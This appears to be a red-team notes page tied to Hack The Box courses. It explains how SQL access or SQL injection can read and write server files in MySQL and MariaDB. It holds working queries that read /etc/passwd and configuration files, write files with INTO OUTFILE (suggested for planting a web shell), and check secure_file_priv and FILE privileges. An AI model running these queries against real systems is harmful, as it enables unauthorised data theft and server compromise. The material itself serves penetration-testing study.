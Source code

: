# Database Exploitation: File system

[![sqlinjectionfundamentals](../../../../../_badges/htb/sqlinjectionfundamentals.svg)](https://academy.hackthebox.com/course/preview/sql-injection-fundamentals)
[![attacking_common_services](../../../../../_badges/htb/attacking_common_services.svg)](https://academy.hackthebox.com/course/preview/attacking-common-services)
[![validation](../../../../../_badges/htb-p/validation.svg)](https://app.hackthebox.com/machines/Validation)

<div class="row row-cols-lg-2"><div>

If we are able to run SQL queries, either from a direct access, or from a [SQLi](/cybersecurity/red-team/s3.exploitation/vulns/injection/sqli.md), we may be able to read/write files.

Common usages are:

* 🔑 Read sensitive files <small>(configuration files, /etc/passwd, etc.)</small>
* 🪲 Write a web shell <small>(you need the webserver root path, try to see if it's shown if error messages if any, or try well-known paths)</small>

In the context of a SQLi, you can use [sqlmap](/cybersecurity/red-team/s3.exploitation/tools/sqlmap.md#readwrite-files) to automate this.
</div><div>

To read a file:

```sql!
SELECT LOAD_FILE('/etc/passwd');
LOAD DATA LOCAL INFILE '/etc/passwd' INTO TABLE xxx;
```

To write something to a file <small>(⚠️ query length limit)</small>:

```sql!
SELECT [...] INTO OUTFILE '/path/to/writable/dir/myfile';
SELECT "Hello!" INTO OUTFILE '/tmp/myfile';
SELECT FROM_BASE64("SGVsbG8h") INTO OUTFILE '/tmp/myfile';
```
</div></div>

<hr class="sep-both">

## DBMS Introspection

<div class="row row-cols-lg-2"><div>

#### MySQL secure_file_priv

MySQL uses the `secure_file_priv`. If it's empty, there is no restriction. If `NULL`, read/write are disabled. Otherwise, we are limited to the specified folder. We can check out the current value with:

```sql!
SELECT variable_value FROM information_schema.global_variables
WHERE VARIABLE_NAME='secure_file_priv'
```
```sql!
Select @@global.secure_file_priv
```

MariaDB has this variable set to empty by default. MySQL uses `/var/lib/mysql-files` as the default folder.
</div><div>

#### List Users That Can Manipulation Files

List users with the file permission <small>(Y=YES)</small>

```sql!
SELECT grantee, privilege_type
FROM information_schema.user_privileges
WHERE PRIVILEGE_TYPE = 'FILE'
```
```sql!
SELECT user,File_priv FROM mysql.user
```
</div></div>